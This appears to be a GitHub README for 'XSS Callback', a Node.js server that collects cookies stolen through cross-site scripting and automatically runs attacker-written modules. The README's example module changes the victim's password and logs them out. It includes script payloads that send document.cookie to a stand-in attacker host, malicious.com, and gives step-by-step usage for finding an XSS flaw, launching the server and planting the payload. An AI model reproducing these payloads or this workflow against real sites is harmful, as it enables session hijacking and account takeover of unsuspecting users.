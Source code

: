 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module :**

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/template.js 8080
```

#### 2) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com:8080/cookie/'+document.cookie</script>
```

#### 3) Check the console log
<br />
### License & Conclusion

Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

